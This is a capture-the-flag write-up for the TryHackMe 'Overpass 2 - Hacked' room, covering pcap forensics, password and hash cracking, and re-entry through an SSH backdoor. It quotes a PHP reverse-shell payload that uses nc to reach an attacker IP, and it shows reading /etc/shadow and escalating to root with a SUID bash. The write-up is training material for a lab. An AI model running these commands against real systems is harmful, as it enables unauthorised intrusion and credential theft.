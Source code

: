 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

## Tools 

- Wireshark https://www.wireshark.org/download.html
- Strings
- John The Ripper https://www.openwall.com/john/
- hashcat https://hashcat.net/hashcat/

##  Forensics - Analyse the PCAP

- Download `overpass2.pcapng`.
- Check and match `md5sum` of the file to verify file.

```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```

- We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
- With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
- Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
- With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
- Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
- Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
- Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
- We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
- Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
- Then we can run john to check.

```bash
john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code

- We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
- Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
- Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
- Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
- As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.

```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```

- Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

- Start Machine to get IP.
- Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
- We have repeat attackers steps. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password. We need to use `-oHostKeyAlgorithms=+ssh-rsa` to get ssh as there is an error.

```bash
ssh -p 2222 james@10.10.136.126
Unable to negotiate with 10.10.136.126 port 2222: no matching host key type found. Their offer: ssh-rsa
$ ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.136.126 -p 2222
The authenticity of host '[10.10.136.126]:2222 ([10.10.136.126]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.136.126]:2222' (RSA) to the list of known hosts.
james@10.10.136.126's password: *******
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

- Question `What's the user flag?` Answer `thm{****************}`

```bash
james@overpass-production:/home/james/ssh-backdoor$ cat /home/james/user.txt
thm{****************}
```

- By using SUID find command `find . -perm /4000` we got a unusual file `/home/james/.suid_bash`. We can get suid exploit for it here https://gtfobins.github.io/gtfobins/bash/#suid
- Question `What's the root flag?` Answer `thm{***************************}`

```bash
james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt 
thm{***************************}
```

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
